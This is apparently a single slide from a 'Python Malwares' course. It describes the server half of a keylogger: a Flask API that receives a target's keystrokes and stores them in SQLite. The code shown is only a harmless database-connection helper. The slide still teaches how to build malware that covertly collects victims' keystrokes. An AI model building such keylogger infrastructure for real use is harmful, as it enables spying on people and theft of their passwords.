

Python Malwares (cont.)
Writing a Keylogger (cont.)
Now, the program we have written can act as a keylogger client, but we need to write the server program that will store those keystrokes of the target.
We’ll start writing the keylogger server, which will store the target’s pressed keys.
We will write a simple Flask API that will handle requests through HTTP.
The server will store the keystrokes in SQLite database.
First, we will write the database, and then we will the web server.
We will use the sqlite3 standard module for our keylogger database.
import sqlite3
from constants import DATABASE  # name of database.
import sys
def create_db(db_file):
    conn = None
    try:
        conn = sqlite3.connect(db_file)
    except Exception as e:
        print(e)
    return conn
140